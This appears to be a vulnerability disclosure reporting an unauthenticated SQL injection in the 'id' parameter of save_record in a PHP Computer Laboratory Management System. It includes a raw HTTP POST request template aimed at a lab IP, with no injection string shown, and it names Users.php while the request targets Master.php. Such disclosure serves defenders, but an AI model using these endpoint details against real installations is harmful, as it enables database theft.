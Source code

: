 The Computer Laboratory Management System has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.







Source code address：https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html



The vulnerability is located in the /classes/Users.php file, directly see save_record, locate to 195-215 lines of code, mainly according to whether there is a '$id' to determine whether to insert a new record or update the existing record, the SQL statement in line 213 is directly splice with $id, there is a security risk.

![image-20250315003623723](images/image-20250315003623723.png)



Vulnerability verification：

```
POST /php-lms/classes/Master.php?f=save_record HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
X-Requested-With: XMLHttpRequest
Content-Length: 1195
Content-Type: multipart/form-data; boundary=---------------------------1237319392264
Connection: keep-alive

-----------------------------1237319392264
Content-Disposition: form-data; name="id"

1
-----------------------------1237319392264
Content-Disposition: form-data; name="type"

1
-----------------------------1237319392264
Content-Disposition: form-data; name="borrower"

Student
-----------------------------1237319392264
Content-Disposition: form-data; name="borrower_name"

John Smith
-----------------------------1237319392264
Content-Disposition: form-data; name="faculty_department"


-----------------------------1237319392264
Content-Disposition: form-data; name="student_year_sec"

BSIS 4A
-----------------------------1237319392264
Content-Disposition: form-data; name="staff_department"


-----------------------------1237319392264
Content-Disposition: form-data; name="borrowed_date"

2024-03-27
-----------------------------1237319392264
Content-Disposition: form-data; name="returned_date"

2024-03-27
-----------------------------1237319392264
Content-Disposition: form-data; name="item_id[]"

1
-----------------------------1237319392264
Content-Disposition: form-data; name="remarks"

test
-----------------------------1237319392264--

```

![image-20250315005024807](images/image-20250315005024807.png)


































